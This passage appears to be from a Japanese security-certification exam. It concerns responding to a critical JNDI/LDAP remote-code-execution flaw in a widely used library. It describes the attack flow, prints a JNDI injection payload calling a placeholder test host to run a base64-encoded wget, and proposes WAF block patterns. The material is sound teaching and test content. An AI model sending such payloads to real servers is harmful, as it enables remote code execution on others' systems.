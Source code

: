 Rさんは、サービスNのSシステムへの導入を責任者に提案し、承認を得た。サービスNの導入完了後、サービスの提供を開始した。

### [新たな脆弱性への対応]

数週間後、ライブラリHというオープンソースのライブラリに脆弱性Vという脆弱性があることが公表された。Rさんは、脆弱性Vについての関連情報を図6のように取りまとめた。

**図6 脆弱性についての関連情報(抜粋)**

  - ライブラリHは、非常に多くのシステムで利用されており、既に脆弱性Vが攻撃に悪用されている事例が報告されている。
  - 脆弱性Vが存在するサーバ (以下、攻撃対象サーバという) への攻撃の流れを次に示す。
    1.  攻撃者は、事前に攻撃用 LDAP サーバと攻撃用 HTTP サーバを準備する。
    2.  攻撃者は、実行したいコマンド(以下、コマンドCという)をbase64 でエンコードした文字列を含む、攻撃用 LDAP サーバに送信する LDAP リクエスト (以下、LDAP リクエストWという)を作成する。その後、LDAP リクエストWを含み、脆弱性を悪用するJNDI Lookup (Java Naming and Directory Interface Lookup) を行う攻撃コードを準備する。
    3.  準備した攻撃コードを HTTP リクエストのx-api-version ヘッダの値として指定した HTTPリクエストを攻撃対象サーバに送信する。
    4.  攻撃対象サーバは、HTTP リクエストを受信すると、攻撃コードを実行する。攻撃コードのJNDI Lookup を実行し、LDAP リクエストWを攻撃用 LDAPサーバに送信する。
    5.  攻擊用 LDAP サーバは、LDAP リクエスト Wから、コマンドCをbase64 でエンコードした文字列を取り出し、デコードしてコマンドCを取り出す。コマンドCを実行させる Java クラスファイル(以下、Jファイルという)を自動生成し、攻撃用HTTP サーバに配置する。攻撃用HTTP サーバは、Jファイルが配置された攻撃用 HTTP サーバのURL (以下、URL-Jという)を攻撃用 LDAPサーバに伝える。
    6.  攻撃用 LDAP サーバは、URL-JをLDAP レスポンスに記載して攻撃対象サーバに返す。
    7.  攻撃対象サーバは、受信したLDAP レスポンスに記載されたURL-Jにアクセスし、Jファイルをダウンロードして、コマンドCを実行する。
  - 脆弱性VのCVSS v3.1に基づいた基本値は9.8と高く、早急な対応が推奨されている。しかし、現時点において、ライブラリHの公式 Web サイトでは、脆弱性を修正したバージョンや暫定対策は提供されていない。
  - G社はSシステムでライブラリHを利用しているかをF社に問い合わせているが、Sシステムの構成を詳細に分析しなければならず、回答まで時間が掛かるとのことである。
  - E社は、脆弱性を悪用した攻撃を検知するために、サービス N における WAF ルールを現在開発中であるが、悪用パターンが多岐にわたることから、網羅性のある WAF ルールの提供には最大で72時間掛かると発表している。

Rさんは、脆弱性Vへの対応方針をZ氏に相談した。Z氏は、F社の回答を待ってからの対応では遅いので、システムに影響を与えない検証コードをSシステムに対して実行し、外部から脆弱性を悪用できるか検証するよう提案した。Rさんは、Z氏の協力の下、図7に示す手順で検証を実施した。

**図7 Rさんが実施した検証手順**

1.  攻撃用 LDAP サーバと攻撃用 HTTP サーバを兼ねたサーバ (以下、テストサーバという)を構築する。
2.  図8に示す検証コードを作成する。
3.  ③<u>図8で指定したコマンドが実行されたことを確認する仕組み</u>をテストサーバに実装する。
4.  検証コードをHTTP リクエスト中に指定してSシステムに送信する。

**図8 作成した検証コード**
*注記1 a2.b2.c2.d2は、Rさんがテストサーバに割り当てたIPアドレスである。*
*注記 2 d2dLdCBodHRwOi8vYTIuYjIuYzIuZDIvaW5kZXguaHRtbA==のデコード結果は, wget http://a2.b2.c2.d2/index.html である。これは、コマンドCに相当する。*

```
${jndi:ldap://a2.b2.c2.d2:1389/Command/Base64/d2dLdCBodHRwOi8vYTIuYjIuYzIuZDIvaW5kZXguaHRtbA==}
```

検証の結果、外部から脆弱性を悪用できることが確認できた。この結果を踏まえて、Rさんは、脆弱性を悪用する攻撃に備え、E社から WAF ルールが提供されるまでの間、現在判明している悪用パターンに対応可能な暫定的なWAF ルールで攻撃を遮断することにした。
Rさんが考えたWAF ルールの案を表6に示す。

**表6 WAF ルールの案**
| ルール | 検証対象 | パターン | 動作 |
| :--- | :--- | :--- | :--- |
| 1 | <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">e</span> | `\Wjndi\W` | 遮断 |
| 2 | <span style="display:inline-block; border: 1px solid black; padding: 0 10px; text-align: center;">f</span> | `\WLdap\W` | 遮断 |
